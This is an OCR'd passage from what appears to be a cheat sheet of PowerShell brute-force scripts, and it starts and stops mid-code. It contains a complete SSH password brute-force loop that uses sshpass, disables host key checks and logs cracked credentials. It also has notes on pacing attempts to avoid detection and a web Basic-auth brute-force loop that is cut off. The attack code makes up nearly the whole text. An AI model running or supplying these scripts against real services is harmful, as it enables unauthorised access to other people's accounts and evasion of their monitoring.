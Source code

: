 ```powershell
}
```

**Description:**

Includes delays between SSH login attempts to avoid detection and mitigate rate limiting.

**Example:**

Test login attempts on ssh.snowcapcyber.com with a 2-second delay.

---

**Script/Command:**

```powershell
$usernames = Get-Content "usernames.txt"
$passwords = Get-Content "passwords.txt"
$sshServer = "ssh.snowcapcyber.com"
$sshPort = 22
$logFile = "bruteforce_log.txt"
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        $sshCommand = "sshpass -p '$password' ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p $sshPort $username@$sshServer"
        try {
            Invoke-Expression -Command $sshCommand
            if ($?) {
                Write-Output "$((Get-Date).ToString('yyyy-MM-dd HH:mm:ss')) - Successful login: $username:$password" | Out-File -Append -FilePath $logFile
            }
        } catch {
            Write-Output "$((Get-Date).ToString('yyyy-MM-dd HH:mm:ss')) - Failed login: $username:$password - $_" | Out-File -Append -FilePath $logFile
        }
    }
}
```

**Description:**

Implements logging to record SSH brute-force results, including successful and failed attempts with timestamps.

**Example:**

Log all login attempts for ssh.snowcapcyber.com to bruteforce_log.txt.

---

### Brute Forcing Web Services Using PowerShell

**Script/Command:**

```powershell
$usernames = Get-Content "usernames.txt"
$passwords = Get-Content "passwords.txt"
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        $base64Auth = [Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes(("${username}:${password}")))
        $headers = @{ Authorization = "Basic $base64Auth" }
        $response = Invoke-RestMethod -Uri "https://api.example.com/resource" -Method Get -Headers $headers
        if ($response.Status -eq "success") {
            Write-Host "Login successful: $username:$password"
            # Perform additional actions
        } else {
            Write-Host "Login failed: $username:$password"
```